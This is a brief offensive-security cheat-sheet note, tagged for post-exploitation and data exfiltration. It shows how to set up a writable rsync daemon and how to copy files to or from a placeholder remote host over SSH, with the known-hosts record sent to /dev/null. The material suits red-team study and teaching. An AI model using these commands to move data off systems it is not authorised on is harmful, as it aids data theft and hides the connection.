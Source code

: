 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - rsync
  - linux
---
```

# Rsync

## 01 - Server Setup

> [!IMPORTANT] Conditions
> The SSH server must have `rsync` installed.

Install `rsync` according to your package manager.

```
$ sudo apt install -y rsync

$ sudo pacman -S rsync
```

Setup an rsync server to upload files.

```
$ cat > rsync.conf << EOF
[up]
path=/path/to/directory
read only=false
uid=<username_ID>
gid=<group_ID>
EOF

$ mkdir /path/to/directory

$ sudo rsync --daemon --port=873 --config=rsync.conf --no-detach
```

## 02 - Upload

```
$ rsync -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <file_source> <username>@<IP>:<file_destination>
```

## 03 - Download

```
$ rsync -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <username>@<IP>:<file_source> <file_destination>
```

---
## References

### Source Repository

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)